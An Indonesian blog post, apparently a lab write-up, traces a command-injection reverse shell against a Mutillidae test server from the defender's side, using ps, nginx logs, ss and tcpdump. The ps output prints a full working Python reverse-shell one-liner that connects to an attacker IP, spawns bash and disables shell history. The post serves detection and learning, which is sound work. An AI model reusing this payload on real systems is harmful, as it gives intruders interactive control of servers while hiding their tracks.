


# Reverse Shell: Proses - Log - Network 

[🇬🇧 Read in English](reverse-shell-server-side-en.md)


Pada [tulisan sebelumnya](https://imoon07.github.io/read.html?post=command-injection-reverse-shell&lang=en), saya membahas bagaimana reverse shell dieksekusi dari sisi attacker (Red Team). Kali ini saya ingin melihat proses yang sama dari perspektif server proses apa yang berjalan, log apa yang tercatat, dan koneksi jaringan apa yang terbentuk ketika reverse shell berhasil dijalankan.

Tulisan ini merupakan catatan sederhana hasil pengamatan di lingkungan lab untuk memahami jejak yang ditinggalkan selama proses tersebut.

Berangkat dari rasa penasaran, tulisan ini adalah catatan kecil saat saya mencoba memahami apa yang sebenarnya terjadi di balik layar (server) ketika reverse shell berhasil masuk.

## Flow: Apa yang Terjadi di Server?

```text
[ Browser Attacker ]
        │ HTTPS Request
        ▼
[ Nginx (Port 443) ]
        │ Forward Request
        ▼
[ PHP (www-data) ]
        │ Command Injection
        ▼
[ Operating System ]
        │ Execute Python
        ▼
[ Reverse Shell ]
        │ Outbound Connection
        ▼
[ Host Attacker ]
```

---

Berikut adalah beberapa perintah bawaan Linux yang saya gunakan untuk melacak jejak serangan ini secara langsung:

### Proses

Ketika serangan sedang berjalan, kita bisa melihat proses mencurigakan yang dieksekusi oleh *user* web server.

```bash
# Lihat proses aktif saat serangan berlangsung
ps aux | grep -E 'python'
```

**Output**


```text
root         874  0.0  1.1 109688 23292 ?        Ssl  11:57   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
www-data    3861  0.0  0.0   2800  1852 ?        S    16:13   0:00 sh -c -- nslookup google.com; python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
www-data    3868  0.0  0.5  18648 11736 ?        S    16:13   0:00 python3 -c import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();
root        3886  0.0  0.1   6544  2328 pts/4    S+   16:18   0:00 grep --color=auto -E python
```

Terlihat jelas *user* `www-data` (yang seharusnya hanya menjalankan *service* web) malah menjalankan perintah mencurigakan: `nslookup google.com; python3 -c 'import os,pty...`. Hal ini mengonfirmasi adanya eksekusi *Command Injection* yang dilanjutkan dengan membuka *reverse shell* ke IP `10.10.10.149` port `9001` (PID 3861 & 3868). Ini adalah *red flag* besar.

### Log

Setiap request yang masuk ke Nginx pasti tercatat di `access.log`. Kita bisa memantau *endpoint* mana yang diserang.


```bash
# Log Nginx (request client masuk dari attacker)
tail -f /var/log/nginx/access.log
```

**Output**


```text
10.10.10.149 - - [26/Jun/2026:16:10:05 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8771 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.10.10.149 - - [26/Jun/2026:16:10:55 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8773 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.10.10.149 - - [26/Jun/2026:16:14:15 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 504 176 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
```

Log ini menunjukkan ada *request* POST berulang kali ke halaman `/index.php?page=dns-lookup.php` dari IP *attacker* (`10.10.10.149`). Hal ini sangat sinkron dengan log proses sebelumnya, di mana *attacker* menyalahgunakan fitur *DNS Lookup* (terlihat dari kata `nslookup google.com` pada payload) untuk menyisipkan *Command Injection*.

### Network

Karakteristik paling kuat dari *reverse shell* adalah koneksi jaringan yang keluar (*outbound connection*) dari server menuju mesin *attacker*.

```bash
# Lihat koneksi aktif keluar (reverse shell)
ss -tnp
```

**Output**


```text
State         Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
...
ESTAB         0         0               10.10.10.2:49342       10.10.10.149:9001     users:(("python3",pid=3868,fd=3),("python3",pid=3868,fd=2),("python3",pid=3868,fd=1),("python3",pid=3868,fd=0))
...
```

Terlihat koneksi yang berstatus `ESTAB` (Established) dari IP server kita (`10.10.10.2`) menuju IP Attacker di port `9001`. Koneksi ilegal ini diinisiasi oleh proses `python3` (PID 3868), persis seperti temuan pada pengecekan log proses di tahap awal.

```bash
# Capture traffic saat serangan
sudo tcpdump -i any port 9001 -nn -A -l
```

**Output**


```text
16:13:15.687717 ens33 Out IP 10.10.10.2.49342 > 10.10.10.149.9001: Flags [P.], seq 1:49, ack 1, win 502, options [nop,nop,TS val 1701540689 ecr 1928400169], length 48
E..d..@.@..5


.


...#).....#......)......
eksQr..)www-data@server01:/var/www/hack/mutillidae/src$
```

Karena traffic *shell* ini berjalan polos tanpa enkripsi, kita bisa membaca komunikasi data secara *plaintext* lewat *packet capture*. Di atas terlihat jelas muncul *shell prompt* `www-data@server01:/var/www/hack/mutillidae/src$`, membuktikan bahwa *attacker* telah sukses mendapatkan akses terminal secara interaktif di dalam server.

---

Proses investigasi sederhana ini mengajarkan saya banyak hal. Saya bisa melihat langsung *flow* dari proses apa saja yang dieksekusi, log apa yang terekam di sistem, hingga wujud koneksi *traffic* di server target. Hal ini membuat saya semakin penasaran untuk bereksplorasi lebih dalam lagi di sisi pertahanan (*defense*).

## Referensi

**Tools & Utility:**
- [tcpdump](https://www.tcpdump.org) — Network packet capture & analysis
- [ss](https://man7.org/linux/man-pages/man8/ss.8.html) — Socket statistics (pengganti netstat pada Linux modern)
- [ps](https://man7.org/linux/man-pages/man1/ps.1.html) — Process monitoring
- [tail](https://man7.org/linux/man-pages/man1/tail.1.html) — Real-time log monitoring
- [grep](https://man7.org/linux/man-pages/man1/grep.1.html) — Filtering output log dan process

**Dokumentasi Resmi:**
- [Nginx Documentation: Access Log](https://nginx.org/en/docs/http/ngx_http_log_module.html)
- [Python Documentation: socket module](https://docs.python.org/3/library/socket.html)
- [Python Documentation: pty module](https://docs.python.org/3/library/pty.html)

**Klasifikasi MITRE ATT&CK:**
- [T1059: Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [T1059.006: Python](https://attack.mitre.org/techniques/T1059/006/)
- [T1071: Application Layer Protocol](https://attack.mitre.org/techniques/T1071/)

Terima kasih membaca tulisan ini!
